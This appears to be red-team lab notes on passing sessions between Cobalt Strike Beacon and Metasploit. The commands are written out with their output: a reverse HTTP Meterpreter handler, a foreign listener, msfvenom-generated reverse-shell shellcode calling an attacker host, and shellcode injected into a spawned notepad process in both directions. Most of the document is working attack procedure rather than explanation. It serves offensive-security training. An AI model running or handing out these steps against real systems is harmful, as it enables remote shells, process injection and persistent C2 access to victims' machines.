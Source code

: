 Session passing is a means of spawning payloads that can talk to other Cobalt Strike listeners, or even listeners of entirely different C2 frameworks. There are many good reasons for doing this, a few examples include:

-   Leverage a capability within a framework that Cobalt Strike doesn't have.
-   Use different C2 frameworks as backup access in the event the current access is lost.
-   To emulate specific TTPs.

Beacon's staging process is based off Meterpreter's, so you can stage Meterpreter from Beacon. Cobalt Strike has a type of listener called the **Foreign Listener** designed to handle this.

On the Kali VM, launch `msfconsole` and start a new `multi/handler` using the `windows/meterpreter/reverse_http` payload.

```bash
root@kali:~# msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://10.10.5.120:8080
```

  

In Cobalt Strike, go to **Listeners > Add** and set the **Payload** to **Foreign HTTP**. Set the **Host** to **10.10.5.120**, the **Port** to **8080** and click **Save**.

![[Pasted image 20230803170650.png]]

  

Now to spawn a Meterpreter session from Beacon, simply type `spawn <listener name>`.

```shell
beacon> spawn metasploit
[*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.120:8080)
```

```shell
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: ofosht99) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.120:8080 -> 10.10.17.231:53951)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  DEV\bfarmer @ WKSTN-1  10.10.5.120:8080 -> 10.10.17.231:53951 (10.10.17.231)
```

  

>  **OPSEC Alert**  
You can only spawn x86 Meterpreter sessions with the foreign listener.

Alternatively, Beacon's `shinject` command can inject any arbitrary shellcode into the specified process. The process can be an existing one, or one we start with the `execute`, `run` or even `shell` commands.

Generate x64 stageless Meterpreter shellcode with `msfvenom`.

```bash
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.120 LPORT=8080 -f raw -o /tmp/msf.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201308 bytes
Saved as: /tmp/msf.bin
```

  

Copy the shellcode across to the **attacker-windows** machine.

```powershell
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```

  

Ensure the multi handler is setup appropriately and inject the shellcode.

```shell
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           DEV\bfarmer

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

```shell
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.120:8080
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Redirecting stageless connection from /N1ZSg3AJ641CWUNbIhhT5QWcTIqjJ_npAOt9u8b01bCZLPFvg0YNTQPPZpC2osS8NoHGOLaUyHHR with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.120:8080 -> 10.10.17.231:53793)
```

  

This same process can work in reverse, to inject Beacon shellcode from a Meterpreter session.

To generate stageless Beacon shellcode, go to `Attacks > Packages > Windows Executable (S)`, select the desired listener, select **Raw** as the **Output** type and select **Use x64 payload**.

Copy it across to the Kali VM.

```shell
C:\Payloads>pscp beacon-http.bin root@kali:/tmp/beacon.bin
beacon-http.bin           | 255 kB | 255.5 kB/s | ETA: 00:00:00 | 100%
```

  

Then use the `post/windows/manage/shellcode_inject` module to inject it into a process.

```shell
msf6 > use post/windows/manage/shellcode_inject
msf6 post(windows/manage/shellcode_inject) > set SESSION 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > run

[*] Running module against WKSTN-1
[*] Spawned Notepad process 4560
[+] Successfully injected payload into process: 4560
[*] Post module execution completed
```